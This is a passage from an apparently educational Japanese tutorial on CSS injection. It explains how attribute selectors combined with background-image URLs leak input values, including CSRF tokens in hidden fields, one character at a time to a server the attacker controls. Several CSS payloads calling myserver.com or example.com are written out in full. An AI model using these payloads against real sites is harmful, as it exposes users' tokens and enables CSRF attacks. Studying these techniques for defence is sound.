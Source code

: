 ```css
//....

input[name="secret"][value^="z"] {
  background: url(https://myserver.com?q=z)
}
```

何が起こるでしょうか？

最初のルールが対応する要素を正常にターゲットにするため、inputの背景はサーバーからの画像になり、ブラウザは `https://myserver.com?q=a` にリクエストを送信します。

したがって、サーバーがこのリクエストを受信すると、「inputのvalue属性の最初の文字はaである」ことがわかり、最初の文字を正常に盗むことができます。

これがCSSがデータを盗むために使用できる理由です。属性セレクターと画像の読み込み機能と組み合わせることで、サーバーはウェブページ上の特定の要素の属性値を知ることができます。

CSSが属性値を盗むことができることを確認したので、次に2つの質問に対処しましょう。

1. 何が盗めるのか？
2. 最初の文字を盗むことしか示していませんでしたが、2番目の文字を盗むにはどうすればよいですか？

最初の質問から始めましょう。何が盗めるのでしょうか？通常、機密データですよね？

最も一般的なターゲットはCSRFトークンです。CSRFについて知らない場合は、今後の記事で説明します。

簡単に言うと、CSRFトークンが盗まれた場合、CSRF攻撃につながる可能性があります。とにかく、このトークンは重要だと考えてください。通常、CSRFトークンは次のような隠し入力フィールドに保存されます。

```html
<form action="/action">
  <input type="hidden" name="csrf-token" value="abc123">
  <input name="username">
  <input type="submit">
</form>
```

中のデータをどのように盗むことができるでしょうか？

## 隠し入力を盗む

隠し入力の場合、以前の方法では機能しません。

```css
input[name="csrf-token"][value^="a"] {
  background: url(https://example.com?q=a)
}
```

inputのタイプがhiddenであるため、この要素は画面に表示されません。表示されないため、ブラウザは背景画像を読み込む必要がなく、サーバーはリクエストを受信しません。この制限は非常に厳格で、`display:block !important;` を使用しても上書きできません。

どうすればいいでしょうか？心配ありません、別のセレクターオプションがあります。このように：

```css
input[name="csrf-token"][value^="a"] + input {
  background: url(https://example.com?q=a)
}
```

最後に `+ input` が追加されています。このプラス記号は別のセレクターで、「後に続く要素を選択する」という意味です。したがって、組み合わせると、セレクターは「nameがcsrf-tokenで、valueがaで始まるinputの、後に続くinputを選択する」という意味になります。つまり、`<input name="username">` です。
